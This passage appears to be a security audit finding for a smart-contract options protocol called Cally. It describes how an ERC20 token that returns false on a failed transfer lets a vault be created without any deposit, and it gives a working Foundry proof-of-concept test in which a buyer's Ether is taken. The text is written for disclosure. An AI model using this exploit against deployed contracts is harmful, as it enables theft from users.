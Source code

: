 Some ERC20 tokens don’t throw but just return false when a transfer fails. This can be abused to trick the `createVault()` function to initialize the vault without providing any tokens. A good example of such a token is _ZRX_: [Etherscan code](https://etherscan.io/address/0xe41d2489571d322189246dafa5ebde1f4699f498#code#L64)

When such a vault is initialized, another user can both buy and exercise the option without ever receiving any funds. The creator of the vault does receive the buyer’s Ether tho. So it can cause a loss of funds.

### [](#proof-of-concept)Proof of Concept

The trick is to create a vault with an ERC20 token but use ERC721 as the vault’s type. Then, instead of calling `safeTransferFrom()` the function calls `transferFrom()` which won’t catch the token returning false.

Here’s a test that showcases the issue:

    // CreateVault.t.sol
        function testStealFunds() public {
            // address of 0x on mainnet
            address t = address(0xE41d2489571d322189246DaFA5ebDe1F4699F498);
            vm.startPrank(babe);
            require(ERC20(t).balanceOf(babe) == 0);
            uint vaultId = c.createVault(100, t, 1, 1, 1, 0, Cally.TokenType.ERC721);
            // check that neither the Cally contract nor the vault creator
            // had any 0x tokens
            require(ERC20(t).balanceOf(babe) == 0);
            require(ERC20(t).balanceOf(address(c)) == 0);
    
            // check whether vault was created properly
            Cally.Vault memory v = c.vaults(vaultId);
            require(v.token == t);
            require(v.tokenIdOrAmount == 100);
            vm.stopPrank();
            // So now there's a vault for 100 0x tokens although the Cally contract doesn't
            // have any.
            // If someone buys & exercises the option they won't receive any tokens.
            uint premium = 0.025 ether;
            uint strike = 2 ether;
            require(address(c).balance == 0, "shouldn't have any balance at the beginning");
            require(payable(address(this)).balance > 0, "not enough balance");
    
            uint optionId = c.buyOption{value: premium}(vaultId);
            c.exercise{value: strike}(optionId);
    
            // buyer of option (`address(this)`) got zero 0x tokens
            // But buyer lost their Ether
            require(ERC20(t).balanceOf(address(this)) == 0);
            require(address(c).balance > 0, "got some money");
        }

To run it, you need to use forge’s forking mode: `forge test --fork-url <alchemy/infura URL> --match testStealFunds`

### [](#recommended-mitigation-steps)Recommended Mitigation Steps
